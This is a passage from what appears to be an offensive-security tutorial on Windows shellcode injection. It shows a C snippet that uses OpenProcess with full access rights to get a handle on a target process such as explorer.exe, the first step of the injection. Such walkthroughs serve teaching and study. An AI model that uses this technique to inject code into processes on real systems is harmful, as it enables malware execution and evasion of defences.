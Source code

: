 We got the encoded shellcode after running the script, we are ready now to
move on.

We will now start implementing the C code that will perform the shellcode
injection for us, I will walk through every win32 API to explain that.

#### Open process and retrieve a handle

We need to choose a process to inject our shellcode to it, and to do that, we
need to retrieve a handle for that process so we can perform some actions on
it, and to do that, we will use OpenProcess win32 API using the following
code:

    
    
    #include &lt;windows.h&gt;
    
    
    int main(int argc, char *argv[]){
    
      // The PID that you want to use
      // You can use GetCurrentProcessId() to get the current PID
      int process_id = atoi(argv[1]);
    
      // Declare a new handle as process variable
      // PROCESS_ALL_ACCESS
      HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);
    
      // If the operation succeeded it will return the handle
      if(process){
        printf(&quot;[+] Handle retrieved successfully!\n&quot;);
    
        // We can print it as pointer using printf
        printf(&quot;[+] Handle value is %p\n&quot;, process);
      }else{
        printf(&quot;[-] Enable to retrieve process handle\n&quot;);
      }
    
    }
    

This code will take the process id that you want to get a handle for as a
first argument to the code, then it will use OpenProcess() with
PROCESS_ALL_ACCESS access right to open the process and save the handle in the
variable process and finally, it will print the handle for us.

The OpenProcess() function actually takes 3 parameters you can check them via
[this page](https://docs.microsoft.com/en-
us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess).

Also, You can check all access rights [from this
page](https://docs.microsoft.com/en-us/windows/win32/procthread/process-
security-and-access-rights).

And after compiling the code and run it to retrieve the handle of the process
"explorer.exe" with pid 4032, we will get the following:

![](https://shells.systems/wp-content/uploads/2020/07/get-handle.png)
